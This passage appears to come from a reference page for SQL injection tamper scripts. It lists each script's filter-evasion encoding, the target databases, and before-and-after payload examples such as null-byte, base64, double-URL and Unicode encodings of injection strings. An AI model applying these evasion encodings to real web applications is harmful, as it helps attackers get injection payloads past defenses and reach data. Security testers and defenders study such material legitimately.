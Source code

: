 Function: Encoding quotation marks with utf8
Platform: All
example
~~~
1 AND ‘1’=’1 ==> 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871
~~~
### apostrophenullencode.py
Function: ‘ ==> %00%27
Platform: All
example
~~~
1 AND ‘1’=’1 ==> 1 AND %00%271%00%27=%00%271
~~~
### appendnullbyte.py
Function: Space ==> %00
Platform: Microsoft Access
example
1 AND 1=1 ==> 1 AND 1=1%00
### base64encode.py
Function: base64 encode
Platform: All
example
~~~
1' AND SLEEP(5)# ==> MScgQU5EIFNMRUVQKDUpIw==
~~~
### between.py
Function: > ==> NOT BETWEEN 0 AND
Platform: Mssql2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
1 AND A > B — ==> 1 AND A NOT BETWEEN 0 AND B — ```、```1 AND A = B — ==> 1 AND A BETWEEN B AND B —
~~~
### bluecoat.py
Function: Space ==> %09
Platform: MySQL 5.1, SGOS
example
~~~
SELECT id FROM users WHERE id = 1 ==> SELECT%09id FROM%09users WHERE%09id LIKE 1
~~~
### chardoubleencode.py
Function: Double url encoding
Platform: All
example
~~~
SELECT FIELD FROM%20TABLE ==> %2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545
~~~
### charencode.py
Function: url encoding
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
SELECT FIELD FROM%20TABLE ==> %53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45
~~~
### charunicodeencode.py
Function: escape code
Platform: Mssql 2000,2005、MySQL 5.1.56、PostgreSQL 9.0.3 ASP/ASP.NET
example
~~~
SELECT FIELD%20FROM TABLE ==> %u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045
~~~